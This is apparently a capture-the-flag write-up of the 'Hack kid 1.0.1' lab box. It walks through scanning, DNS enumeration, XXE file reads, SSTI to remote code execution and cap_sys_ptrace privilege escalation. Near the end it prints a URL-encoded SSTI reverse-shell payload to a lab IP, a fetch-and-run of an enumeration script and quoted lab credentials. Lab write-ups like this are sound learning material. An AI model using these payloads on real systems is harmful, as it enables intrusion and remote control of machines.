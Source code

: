 ```yaml
---
title: "Pentesting Diary - Hack with Me: [1] Hack kid 1.0.1"
published: 2022-02-04   
description: ''
image: ''
tags: ["writeup", "pentesting-diary-hack-with-me"]
category: 'Cybersecurity'
draft: false 
lang: 'en'
---
```

# Hack kid 1.0.1 |


Scan network to discover the pentest box.
Using Nmap or netdiscovery:

![Untitled](Untitled.png)

Here the pentest box’s IP is : 10.10.10.1
We use Nmap to scan port & service:

> nmap -sV 10.10.10.1
> 

Port 80 and 9999 open a web server

![Untitled](Untitled%201.png)

Map IP to local DNS by editing hosts file: vim /etc/hosts

![Untitled](Untitled%202.png)

 Review source web on port 80:

![Untitled](Untitled%203.png)

Hint for using Get parameter “page_no”.

![Untitled](Untitled%204.png)

 

![Untitled](Untitled%205.png)

I use Burpsuit to Bruteforce the id then we got something at 21(I've change to use Wfuzz instead next time):

![Untitled](Untitled%206.png)

Map IP to local DNS hackers.blackhat.local by editing file hosts again.

![Untitled](Untitled%207.png)

![Untitled](Untitled%208.png)

Using Dirsearch to find hidden directory but nothing is useful.

![Untitled](Untitled%209.png)

The text is Uppercase Dig so I think it is a hint. I’ve to use dig tool to check all DNS records.

![Untitled](Untitled%2010.png)

Got a new URL.

![Untitled](Untitled%2011.png)

![Untitled](Untitled%2012.png)

Let's trying to find something useful here.
I open this URL on Burpsuit and trying to check if it has XXE vulns

![Untitled](Untitled%2013.png)

 

Yeah, we got something here.

![Untitled](Untitled%2014.png)

Let's try to read some common files such as .bash_history,.bashrc.

![Untitled](Untitled%2015.png)

We got a username and password on .bashrc.

> username="saket"
password="Saket!#$%@!!"
> 

Use this info to login to web server on port 9999

![Untitled](Untitled%2016.png)

![Untitled](Untitled%2017.png)

I’ve found out that this server has SSTI therefore I was tried to RCE it.

![Untitled](Untitled%2018.png)

![Untitled](Untitled%2019.png)

Yeah!?Now we’ve RCE it. Let go for PrivilegeEsc

Use [lse.sh](http://lse.sh/) to check over the system. I’ve to use cap_sys_ptrace vuln to Privilege.

![Untitled](Untitled%2020.png)

use cap_sys-ptrace vuln to Privilege

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities)

![Untitled](Untitled%2021.png)

Inject payload →  get root and enjoy the winning moment :<

RevShell payload:
```
%7b%25%20%69%6d%70%6f%72%74%20%6f%73%20%25%7d%7b%7b%6f%73%2e%73%79%73%74%65%6d%28%27%62%61%73%68%20%2d%63%20%22%30%3c%26%31%39%36%3b%65%78%65%63%20%31%39%36%3c%3e%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%30%2e%34%2f%31%32%33%34%3b%20%73%68%20%3c%26%31%39%36%20%3e%26%31%39%36%20%32%3e%26%31%39%36%22%27%29%7d%7d
```
[https://github.com/carlospolop/PEASS-ng/releases/download/20220202/linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/download/20220202/linpeas.sh)

wget "[https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh](https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh)" -O [lse.sh](http://lse.sh/);chmod 700 [lse.sh](http://lse.sh/)

cap_sys-ptrace : [https://pastebin.com/raw/5uT7vGPP](https://pastebin.com/raw/5uT7vGPP)

Wfuzz: 

- -w wordlist
- -u url
- -hh x: find which is not x
- -c colorful

PS: Lần sau sẽ dùng wfuzz để bruteforce thay vì dùng burpsuite.
